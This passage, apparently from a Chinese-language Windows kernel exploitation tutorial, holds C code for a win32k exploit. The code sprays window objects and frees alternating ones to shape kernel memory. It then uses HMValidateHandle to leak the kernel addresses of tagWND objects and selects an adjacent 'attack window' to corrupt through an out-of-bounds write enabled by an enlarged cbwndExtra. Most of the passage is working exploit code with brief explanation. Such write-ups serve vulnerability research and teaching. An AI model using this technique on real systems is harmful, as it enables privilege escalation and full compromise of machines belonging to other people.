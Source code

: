 ```
                                     NULL,
                                     0,
                                     GetModuleHandle(NULL),
                                     0);
        if (!hWndList[i])
        {
            ShowError("CreateWindowEx", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }

    // 释放其中的一部分用来保存触发漏洞时候创建的窗口
    for (i = 20; i < 80; i += 2)
    {
        if (!DestroyWindow(hWndList[i]))
        {
            ShowError("DestroyWindow", GetLastError());
            bRet = FALSE;
            goto exit;
        }
        hWndList[i] = NULL;
    }

exit:
    return bRet;
}
```  
  
  
此时，在触发漏洞的时候，加入以下代码用来查找位于被扩大cbwndExtra的tagWND对象高地址中最近的一个tagWND对象用来作为攻击窗口此时，就可以利用越界写入修改攻击窗口对象tagWND中的成员。  
```
DWORD dwTriggerAddr = 0, dwAttackAddr = 0;
lHMValidateHandle HMValidateHandle =  (lHMValidateHandle)GetHMValidateHandle();

PTHRDESKHEAD pTriggerHead = (PTHRDESKHEAD)HMValidateHandle(hTriggerWnd, TYPE_WINDOW);

dwTriggerAddr = (DWORD)pTriggerHead->pSelf;
// 寻找用来攻击的tagWND
for (i = 0; i < 100; i++)
{
    if (hWndList[i])
    {
        PTHRDESKHEAD pFakeHead = (PTHRDESKHEAD)HMValidateHandle(hWndList[i], TYPE_WINDOW);

        dwAttackAddr = (DWORD)pFakeHead->pSelf;
        if (dwAttackAddr > dwTriggerAddr && dwAttackAddr - dwTriggerAddr < 0x3FD000)
        {
            hAttackWnd = hWndList[i];
            break;
        }
    }
}

if (!hAttackWnd)
{
    printf("Do not find Attack tagWND\n");
    bRet = FALSE;
    goto exit;
}
```  
  